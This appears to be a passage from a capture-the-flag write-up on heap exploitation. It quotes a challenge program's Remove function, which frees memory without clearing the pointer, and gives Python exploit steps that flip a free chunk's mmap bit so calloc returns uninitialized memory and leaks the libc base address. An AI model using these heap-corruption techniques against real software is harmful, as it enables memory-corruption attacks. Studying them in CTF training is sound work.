 If we can add **2** to the size of a free chunk , we end up setting the `mmap-bit` of the free chunk , and thus we can fool calloc to return an uninitialized piece of memory. 

What this means is that , calloc considers the chunk to be mapped chunk and thus does not call `memset` internally and this sets up our libc leak.

3. The `Remove` function

```c
//Remove function , nulls out the is_enrolled bit , but doesnt null out the table
void Remove()
{
    printf("Enter index of Enrolled Candidate: ");
    unsigned int index = getInt();
    if(!enrolled_table[index] || !is_enrolled[index] || index<0 || index > 2)
    {
        puts("Invalid Index");
        return;
    }
    //printf("Removing chunk %llx\n",enrolled_table[index]);
    if(enrolled_table[index])
        free(enrolled_table[index]);
    is_enrolled[index]=0;
    enrolled--;
    return;
}
```

As you can see , the remove function doesn't null out the table , which lets us `hack` free chunks.

Now let's finish up the exploit until leaking libc.

Getting leaks with this information in hand is nothing but a trivial task.

```python

    #Add 2 chunks ,one of which is uneffected by tcache
    add(0,0x600,'b'*0x40)
    add(1,0x80,'a'*0x40)
    #Free first one to send to unsorted bin
    free(0)
    #Send the unsorted bin to large bin
    add(2,0x1260,'unsorted bin')
    #Flip the bit to make the free chunk mapped , which could be used for leaking with calloc
    hack(0)
    hack(0)
    #Now add that chunk to get uninitialised memory from calloc
    add(0,0xd10,'d'*8) #0x10f0
    #view it to leak stuff
    view(0)
    #Leaks
    io.recvuntil("d"*8)
    libc_base = u64(re(6) + '\x00'*2) - 0x1ec1e0
    log.info("libc_base = "+ hex(libc_base))
    #Done with leaks , move on
```
